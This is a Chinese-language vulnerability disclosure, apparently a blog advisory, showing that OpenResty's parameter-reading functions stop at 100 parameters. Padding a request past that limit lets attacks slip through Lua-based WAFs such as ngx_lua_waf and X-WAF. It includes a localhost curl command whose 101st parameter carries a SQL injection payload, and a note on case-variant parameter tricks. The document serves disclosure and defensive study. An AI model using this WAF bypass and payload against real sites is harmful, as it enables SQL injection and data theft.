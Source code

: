 ###0x00 前言

​	OpenResty® 是一个基于 Nginx 与 Lua 的高性能 Web 平台，其内部集成了大量精良的 Lua 库、第三方模块以及大多数的依赖项。

OpenResty官网：https://openresty.org

漏洞等级：高危

漏洞简介：OpenResty 通过ngx.req.get_uri_args、ngx.req.get_post_args获取参数，只能获取到前100个参数，当提交第101个参数时，uri参数溢出，无法正确获取到第101个及以后的参数，无法对攻击者提交的攻击语句进行安全检测，导致基于ngx_lua开发的安全防护可被绕过，影响多款基于OpenResty的开源WAF。

影响版本：OpenResty全版本

###0x01 环境搭建 

运行环境：CentOS6

源码版本：https://openresty.org/download/openresty-1.13.6.1.tar.gz （官网最新版）

### 0x02 漏洞详情

#### A、uri参数获取

首先看一下官方 API 文档，获取一个 uri 有两个方法：ngx.req.get_uri_args、ngx.req.get_post_args，二者主要的区别是参数来源有区别，ngx.req.get_uri_args获取 uri 请求参数，ngx.req.get_post_args获取来自 post 请求内容。

测试用例：

`server {
   listen    80;
   server_name  localhost;

   location /print_param {
       content_by_lua_block {
           local arg = ngx.req.get_uri_args()
           for k,v in pairs(arg) do
               ngx.say("[GET ] key:", k, " v:", v)
           end

           ngx.req.read_body()
           local arg = ngx.req.get_post_args()
           for k,v in pairs(arg) do
               ngx.say("[POST] key:", k, " v:", v)
           end
       }
   }
}`

输出测试：

![](1.png)

#### B、参数大小写

当提交同一参数id，根据接收参数的顺序进行排序，

可是当参数id，进行大小写变换，如变形为Id、iD、ID，则会被当做不同的参数。

![](2.png)

比较有趣的是，window下IIS+ASP/ASPX 大小写是不敏感的，

提交参数为 ?id=1&Id=2&iD=3&ID=4，

输出结果为 1, 2, 3, 4

那么，当nginx反向代理到IIS服务器的时候，这就存在一个参数获取的差异，结合HPP进行利用，可被用来进行Bypass  ngx_lua 构建的SQL注入防御。这里不做讨论，介绍参数大小写，主要用于进一步构造测试用例。

####C、参数溢出

如果当我们不段填充参数，会发生什么情况呢，为此我构造了一个方便用于展示的测试案例，a0-a9，10*10,共100参数，然后第101个参数添加SQL注入 Payload，我们来看看会发生什么？

测试用例：

 curl '127.0.0.1/test?
 a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&
 a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&
 a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&
 a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&
 a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&
 a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&
 a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&
 a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&
 a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&
 a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&
 id=1 union select 1,schema_name,3 from INFORMATION_SCHEMA.schemata'

输出结果：

![](3.png)

可以看到，使用ngx.req.get_uri_args获取uri 请求参数，只获取前100个参数，第101个参数并没有获取到。继续构造一个POST请求，来看一下：

![](4.png)

使用ngx.req.get_post_args 获取的post请求内容，也同样只获取前100个参数。

综上，通过ngx.req.get_uri_args、ngx.req.get_post_args获取uri参数，只能获取前100个参数，当提交第101个参数时，uri参数溢出，无法正确获取第100以后的参数值，基于ngx_lua开发的安全防护，无法对攻击者提交的第100个以后的参数进行有效安全检测，从而绕过安全防御。



### 0x03 影响产品

####A、ngx_lua_waf

ngx_lua_waf是一个基于lua-nginx-module(openresty)的web应用防火墙

github源码：https://github.com/loveshell/ngx_lua_waf

**拦截效果图：**

![](5.png)

**利用参数溢出Bypass：**

![](6.png)



####B、X-WAF

X-WAF是一款适用中、小企业的云WAF系统，让中、小企业也可以非常方便地拥有自己的免费云WAF。

官网：<https://waf.xsec.io> 

github源码：https://github.com/xsec-lab/x-waf

**拦截效果图：**

![](7.png)

**利用参数溢出Bypass：**

![](8.png)



参考链接：http://wiki.jikexueyuan.com/project/openresty/openresty/get_url_param.html













